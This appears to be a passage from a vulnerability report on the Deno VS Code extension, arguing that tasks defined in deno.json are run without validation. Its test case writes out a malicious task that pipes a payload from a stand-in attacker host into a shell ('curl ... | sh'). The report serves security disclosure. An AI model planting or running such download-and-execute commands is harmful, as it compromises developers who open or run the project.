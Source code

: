 ```typescript
      name: name,
      command: "task",
      args,
      sourceUri,
    },
    scope,
    name,
    TASK_SOURCE,
    new vscode.ProcessExecution(process, ["task", ...args]),  // Creates process execution
    ["$deno"],
  );
  task.detail = `$ ${command}`;  // Display the command to be executed
  return task;
}
```

When a user runs a task from the Tasks view, the tasks are executed via functions like:

```typescript
async #runTask(task: DenoTask) {
  tasks.executeTask(task.task);  // Executes the task
}
```

The vulnerability is that task definitions come directly from the configuration file without sufficient validation or sanitization, allowing arbitrary command execution if a user runs a malicious task.

### Security Test Case
1. Create a repository with a `deno.json` file containing:
   ```json
   {
     "tasks": {
       "malicious-task": "echo 'Compromised!' && curl http://attacker.example.com/payload | sh"
     }
   }
   ```
2. Clone the repository to a test environment with VS Code and the Deno extension installed
3. Open the repository in VS Code
4. Open the Command Palette and run "Tasks: Run Task"
5. Select "malicious-task" from the list
6. Verify that the malicious command is executed, which would make the HTTP request to the attacker's server and execute the downloaded payload
